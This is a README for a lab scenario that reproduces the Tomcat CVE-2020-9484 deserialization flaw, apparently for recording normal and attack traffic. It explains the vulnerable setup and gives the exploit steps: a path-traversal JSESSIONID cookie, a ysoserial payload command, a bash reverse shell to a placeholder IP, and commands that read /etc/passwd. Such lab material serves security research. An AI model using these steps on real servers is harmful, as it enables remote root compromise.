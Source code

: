 # CVE-2020-9484 Tomcat Deserialization

## Description / Overview of Scenario

If a Apache Tomcat Server of certain versions is used configured in a specific way (described below)an attacker can trigger an remote code execution via deserialization with a crafted request.

## victim:

Docker container base from https://github.com/masahiro331/CVE-2020-9484.

uploading-migrated.war is custom webapplication to upload and show files.
groovy-2.3.9.jar is vulnerable webapplication implementing the following flaws.

Apache Tomcat versions 10.0.0-M1 to 10.0.0-M4, 9.0.0.M1 to 9.0.34, 8.5.0 to 8.5.54 and 7.0.0 to 7.0.103
Following things must be true for the vulnerability to be accessible:
* The server is configured to use the PersistenceManager with a FileStore; and
* The PersistenceManager is configured with sessionAttributeValueClassNameFilter="null" (the default unless a SecurityManager is used) or a sufficiently lax filter to allow the attacker provided object to be deserialized; and
* An attacker is able to control the contents and name of a file on the server; and
* The attacker knows the relative file path from the storage location used by FileStore to the file the attacker has control over;
    https://nvd.nist.gov/vuln/detail/CVE-2020-9484

Includes a uploading and downloading web application written with Spring boot (war file).

Steps to reproduce web application file:

* Clone example web application from 
    git clone https://github.com/spring-guides/gs-uploading-files.git
* Follow tutorial at: https://spring.io/guides/gs/uploading-files/

* Change needed things to create war file
    * Add:
      ```xml
        <packaging>war</packaging>
        <dependencies>
            ...
            <dependency>
               <groupId>org.springframework.boot</groupId>
               <artifactId>spring-boot-starter-tomcat</artifactId>
               <scope>provided</scope>
           </dependency>
           ...
        </dependencies>
        ```
        
   *  In Application.java add:
        ```javascript
        import org.springframework.boot.web.servlet.support.SpringBootServletInitializer;

        public class Application extends SpringBootServletInitializer{
            ...
            @Override
            protected SpringApplicationBuilder configure(SpringApplicationBuilder application) {
                 return application.sources(Application.class);
            }
        }
        ```


* Compile in /initial with ./mvnw clean package

* Convert application to be able to run unter Tomcat 10

    * Download migration tool: https://tomcat.apache.org/download-migration.cgi
    * and run in initial/target:
            
            java -jar jakartaee-migration-*-shaded.jar uploading.war uploading-migrated.war 

## normal
Upload and download files from victim.
Uploaded files are txt files filled with random strings, so sizes differ.

## exploit:

Uploading a crafted payload created with ysoserial.jar. 

It is possible to send crafted POST request with JSESSIONID set to a specific path.

The Victim then tries to load a SessionID which is not available.

Because of the PersistanceManager a Session is loaded from the specified path.

E.g: 
    
    Cookie : "JSESSIONID=../../../../upload-dir/executePayload.session"
This session is then deserialized and enables remote code execution as root user.
With ysoserial and the following command a malicious binary is created.

Create payload with reverse shell

    #!/usr/bin/bash
    echo "bash -i >& /dev/tcp/{ip}/4444 0>&1"
    
Run the payload uploaded through the website.

    java -jar ysoserial.jar Groovy1 'bash /tmp/payload.sh' > executePayload.session
    
Start listener and wait for connection from victim.

Send the following to test connection and then make use of root rights.
    
    whoami
    cat /etc/passwd

## cli interface:

    sudo python3.7 main.py a b c
    
    a: boolean (0/1) run automated normal behavior
    b: integer recording time
       1-n: recording time in seconds
        -1: flag to run auto stop of recording after end of exploit
    c: boolean (0/1) run automated exploit
